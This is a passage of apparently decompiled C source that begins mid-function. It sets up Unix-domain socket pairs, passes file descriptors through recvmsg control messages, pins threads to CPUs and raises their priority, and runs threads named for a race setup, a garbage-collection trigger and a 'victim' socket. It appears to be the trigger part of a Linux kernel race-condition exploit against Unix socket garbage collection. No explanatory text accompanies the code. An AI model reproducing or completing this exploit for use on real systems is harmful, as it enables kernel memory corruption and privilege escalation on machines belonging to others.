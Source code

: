 ```c
  v11.msg_iovlen = 1LL;
  v11.msg_control = received_fds;
  v11.msg_controllen = 20LL;
  received_fds_ptr = (int *)received_fds;
  received_fds[0] = 20LL;  // len
  v17 = 0;
  v14 = -1;
  pin_cpu(2LL);
  setpriority(PRIO_PROCESS, 0, -19);
  pthread_mutex_lock(&condition_mutex_recvmsg);
  pthread_cond_wait(&condition_cond_recvmsg, &condition_mutex_recvmsg);
  pthread_mutex_unlock(&condition_mutex_recvmsg);
  usleep(0xFAu);
  v0 = recvmsg(sv[1], &v11, 0x80042);
  v14 = v0 < 0;
  fd = received_fds_ptr[4];
  v1 = recvmsg(fd, &v11, 0x80042);  // data
  v14 = v1 < 0;
  g_victim_sock_fd = received_fds_ptr[4];
  usleep(0x3E8u);
  v5 = v4;
  v17 = 0;
  v16 = -1;
  v7 = recvmsg(fd, &v11, 0x80040);
  v14 = v7 < 0;
  v16 = received_fds_ptr[4];
  usleep(0x186A0u);
  close(fd);
  close(v16);
  close(sv[1]);
  pthread_exit(0LL);
  return 0LL;
}
 
void trigger() {
  pthread_t v18;
  pthread_t v20;
  pthread_t v21;
  void *arg;
  pthread_create(&v20, 0LL, (void *(*)(void *))t_main_gc_simple, 0LL);
  pthread_create(&v18, 0LL, (void *(*)(void *))t_recvmsg, 0LL);
  usleep(0x2710u);
  pthread_create(&v21, 0LL, (void *(*)(void *))setup_race, 0LL);
  pthread_join(v21, 0LL);
  pthread_join(v18, 0LL);
  pthread_join(v20, 0LL);
  usleep(10);
  puts("wut?");
}
 
int main(int argc, char **argv) {
  for (int i = 0; i < 20; i++) {
    if (socketpair(1, 1, 0, sv) != 0)
      printf("Failed to create Unix-domain socket pair\n");
    trigger();
  }
  return 0;
}
```
